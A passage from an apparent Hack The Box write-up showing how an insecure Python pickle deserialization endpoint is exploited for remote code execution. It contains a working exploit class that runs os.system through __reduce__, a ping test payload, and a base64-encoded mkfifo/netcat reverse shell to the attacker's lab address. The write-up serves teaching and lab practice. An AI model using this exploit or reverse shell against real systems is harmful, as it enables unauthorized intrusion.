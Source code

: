 And it works:

```

HTTP/1.1 200 OK
Server: gunicorn/19.7.1
Date: Fri, 12 Oct 2018 09:46:36 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 19

POST RECEIVED: test

```

#### Exploitation

Pickle is python’s serialization library, and as is true with most serialization / deserialization methods, it’s extremely risky to use with user controlled input. There’s another example of pickle exploitation in [my Canape writeup](/2018/09/15/htb-canape.html).

Serialization allows a programmer to take an object within a program and save it as a text string, so that that string can be loaded later and/or on a different host and the full object will be available. When python runs the deserialization functions (`load` or `loads`) and gets an object, it will always attempt to run that object’s `__reduce__` method, which is used to clean up things that don’t serialize well, such as a file handle.

We can take advantage of that to get RCE. First, build the malicious string to submit:

```

>>> import os
>>> class Exploit(object):
...     def __init__(self, cmd):
...         self.cmd = cmd
...     def __reduce__(self):
...         return (os.system, (self.cmd,))

>>> pickle.dumps(Exploit('ping -c 1 10.10.14.3'))
"cposix\nsystem\np1\n(S'ping -c 1 10.10.14.3'\np2\ntRp3\n."
>>> base64.urlsafe_b64encode(pickle.dumps(Exploit('ping -c 1 10.10.14.3')))
'Y3Bvc2l4CnN5c3RlbQpwMQooUydwaW5nIC1jIDEgMTAuMTAuMTQuMycKcDIKdFJwMwou'

```

Now, post that string and see what happens:

![](https://0xdfimages.gitlab.io/img/devoops-pickle-ping.gif)

There’s a 500 error from the server, but also pings at `tcpdump`. So that’s RCE.

Now get a shell. Just re-run the python code with a new command:

```

>>> base64.urlsafe_b64encode(pickle.dumps(Exploit('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f')))
'Y3Bvc2l4CnN5c3RlbQpwMQooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4zIDQ0MyA-L3RtcC9mJwpwMgp0UnAzCi4='

```
